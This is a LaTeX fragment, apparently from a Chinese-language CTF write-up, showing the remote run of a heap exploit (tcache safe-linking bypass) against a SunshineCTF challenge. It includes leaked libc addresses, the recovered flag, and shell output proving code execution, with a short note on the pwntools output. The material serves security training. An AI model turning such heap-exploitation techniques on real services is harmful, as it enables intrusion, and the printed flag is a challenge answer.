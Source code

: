 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{9.2 遠端（真實 flag）}\label{ux9060ux7aefux771fux5be6-flag}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py REMOTE
[x] Opening connection to chal.sunshinectf.games on port 26004
[x] Opening connection to chal.sunshinectf.games on port 26004: Trying 35.211.211.18
[+] Opening connection to chal.sunshinectf.games on port 26004: Done
[+] unsorted bin head : 0x74d24f3e9b20
[+] libc base         : 0x74d24f1e9000
[+] safe-linking key  : 0x2e22b
[+] libc fingerprint  : Ubuntu glibc 2.39 (all GOT entries match)
[+] system() = 0x74d24f241740
[+] Deposited 8 bytes. New balance: 8

--- MAIN MENU ---
1) Open Wallet
2) Deposit (write to ledger)
3) Withdraw (read from ledger)
4) Transfer
5) Close Wallet
6) List Wallets
0) Exit
>>> sun{s4fe_l1nk1ng_w0nt_s4ve_y0ur_tc4che}
total 12
drwxr-xr-x 2 root root        4096 Sep 26 00:21 .
drwxr-xr-x 1 root root        4096 Sep 26 00:54 ..
-rw-r----- 1 root cache_money   40 Sep 26 00:13 flag.txt
uid=1337(cache_money) gid=1337(cache_money) groups=1337(cache_money)
DONE


FLAG: sun{s4fe_l1nk1ng_w0nt_s4ve_y0ur_tc4che}
[*] Closed connection to chal.sunshinectf.games port 26004
\end{Verbatim}

\begin{quote}
※提示 \textbf{遠端連線 pwntools 會印「兩行」}：
\texttt{{[}x{]}\ \allowbreak{}Opening\ \allowbreak{}connection\ \allowbreak{}...:\allowbreak{}\ \allowbreak{}Trying\ \allowbreak{}35.\allowbreak{}211.\allowbreak{}211.\allowbreak{}18}（開始嘗試）與
\texttt{{[}+{]}\ \allowbreak{}Opening\ \allowbreak{}connection\ \allowbreak{}...:\allowbreak{}\ \allowbreak{}Done}（成功）。只看到一行不代表只做了一次動作。
\texttt{libc\ \allowbreak{}fingerprint\ \allowbreak{}:\allowbreak{}\ \allowbreak{}...\allowbreak{}\ \allowbreak{}all\ \allowbreak{}GOT\ \allowbreak{}entries\ \allowbreak{}match} 代表 11 個
GOT 項目扣掉我們的 libc base 之後\textbf{全部命中}已知 offset →
確認遠端就是同一份 2.39 libc（不是硬猜 offset）。
\end{quote}

\textbf{真實
flag：\texttt{sun\{\allowbreak{}s4fe\_\allowbreak{}l1nk1ng\_\allowbreak{}w0nt\_\allowbreak{}s4ve\_\allowbreak{}y0ur\_\allowbreak{}tc4che\}\allowbreak{}}}
\end{document}
